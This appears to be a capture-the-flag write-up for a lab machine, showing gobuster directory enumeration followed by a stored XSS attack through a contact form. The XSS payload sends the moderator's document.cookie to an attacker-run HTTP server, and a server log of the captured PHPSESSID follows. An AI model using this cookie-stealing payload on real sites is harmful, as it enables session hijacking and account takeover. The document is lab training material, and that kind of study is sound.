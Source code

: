 ===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
[+] Url: http://review.thm//
[+] Method: GET
[+] Threads: 10
[+] Wordlist: /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes: 404
[+] User Agent: gobuster/3.8
[+] Timeout: 10s
Starting gobuster in directory enumeration mode
/.hta (Status: 403) [Size: 275]
/.htpasswd (Status: 403) [Size: 275]
/.htaccess (Status: 403) [Size: 275]
/index.php (Status: 200) [Size: 1694]
/javascript (Status: 301) [Size: 313] [--> http://review.thm/javascript/]
/mail (Status: 301) [Size: 307] [--> http://review.thm/mail/]
/phpmyadmin (Status: 301) [Size: 313] [--> http://review.thm/phpmyadmin/]
/server-status (Status: 403) [Size: 275]
/uploads (Status: 301) [Size: 310] [--> http://review.thm/uploads/]
Progress: 4613 / 4613 (100.00%)
Finished

<img width="1276" height="722" alt="image" src="https://github.com/user-attachments/assets/ff1f8723-f3e0-47ef-960a-7b748578d365" />

An important information, please take notes

After the search process, I discovered the http://review.thm/contact.php can send a message to the mod I tried the Script XSS and it succeeded

<img width="1280" height="745" alt="image" src="https://github.com/user-attachments/assets/4f8b3c65-2e92-4611-a8d1-80bcf7e9a00a" />

Image <script> var img = new Image(); img.src = 'http://:4444/stealcookies?' + document.cookie; </script>
Then I started the http server

python3 -m http.server 4444

We have gained the cookies of the mod

$ python3 -m http.server 4444
Serving HTTP on 0.0.0.0 port 4444 (http://0.0.0.0:4444/) ...
10.201.50.181 - - [22/Sep/2025 11:23:39] code 404, message File not found
10.201.50.181 - - [22/Sep/2025 11:23:39] "GET /stealcookies?PHPSESSID=buiscm78c6ni4jakeu12ejig3n HTTP/1.1" 404 -
10.201.50.181 - - [22/Sep/2025 11:23:42] code 404, message File not found
10.201.50.181 - - [22/Sep/2025 11:23:42] "GET /stealcookies?PHPSESSID=buiscm78c6ni4jakeu12ejig3n HTTP/1.1" 404 -
10.201.50.181 - - [22/Sep/2025 11:23:44] code 404, message File not found
10.201.50.181 - - [22/Sep/2025 11:23:44] "GET /stealcookies?PHPSESSID=buiscm78c6ni4jakeu12ejig3n HTTP/1.1" 404 -
^C
Keyboard interrupt received, exiting.
